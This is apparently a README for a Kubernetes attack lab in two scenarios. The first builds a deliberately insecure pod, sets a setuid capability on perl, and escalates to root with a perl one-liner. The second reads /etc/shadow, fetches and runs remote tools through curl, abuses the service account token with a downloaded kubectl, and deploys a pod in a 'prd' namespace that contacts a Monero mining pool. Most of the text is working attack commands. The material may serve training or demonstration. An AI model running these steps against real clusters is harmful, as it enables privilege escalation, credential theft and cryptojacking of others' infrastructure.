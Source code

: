 # Scenario 1: Perform privilege escalation 

## setup the environment

1- create pod :

```bash
cd /tmp; cat > dev-dashboard.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: dev-dashboard
  labels:
    app: dev-dashboard
spec:
  containers:
  - name: dev-dashboard
#    securityContext:
#      runAsUser: 10000
#      runAsGroup: 10000
    image: ubuntu:latest
    command: ["/bin/sleep", "3650d"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
```

2- deploy the pod 

```bash
kubectl apply -f ubuntu.yml
```

3- access the new pod 

```bash
kubectl exec -it ubuntu -- bash
```

4- install some additoin 

```bash
apt update
apt install curl -y 
apt install  libcap2-bin -y 
apt install sudo -y
```

5- set up Perl command with administrative rights.

```bash
setcap cap_setuid+ep /usr/bin/perl
```

6- create new user 

```bash 
adduser demo
```

## starting the attack

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

Display the capabilities /check the files that have setuid permission 

```bash
getcap -r / 2>/dev/null
sudo -l
```
in this case, the binary /usr/bin/perl has the SUID set.

privilage escalation

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

```bash
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

# Scenario 2: Cryptomining

Information-gathering:

```bash
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

```bash
cat /etc/shadow
ls -l /root 
ls -l /home
```

```bash
ln -s /etc/shadow sh-link
```

Here we download and run a basic Linux config auditor to see if it finds any obvious opportunities. 
``` bash
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```

Is it a container? 
amicontainer —> is a container introspection tool that lets you find out what container runtime is being used as well as the features available.

```bash
cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

Now let's inspect our Kubernetes environment:

```bash
env | grep -i kube
```
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount
```
We have typical Kubernetes-related environment variables defined, let's see if the Kubernetes security configuration is sloppy.

```bash
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://dl.k8s.io/release/v1.22.0/bin/linux/amd64/kubectl; chmod 555 kubectl
```

```bash
kubectl get all
```

By default, kubectl will attempt to use the default service account in /var/run/secrets/kubernetes.io/serviceaccount -- and it looks like this one has some API access

- Let's inspect what all we can do:

```bash
kubectl auth can-i --list
```

```bash
kubectl auth can-i create pods
```
```bash
cd /tmp; cat > crypto.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: crypto
  namespace: prd
  labels:
    app: crypto
spec:
  containers:
  - name: crypto
    image: ubuntu:latest
    command: ["/bin/sh"]
    args: ["-c", "apt update && apt install curl -y && curl pool.minexmr.com"]
    imagePullPolicy: IfNotPresent
  restartPolicy: Always
EOF
./kubectl apply -f crypto.yml
sleep 10
./kubectl get pods
```
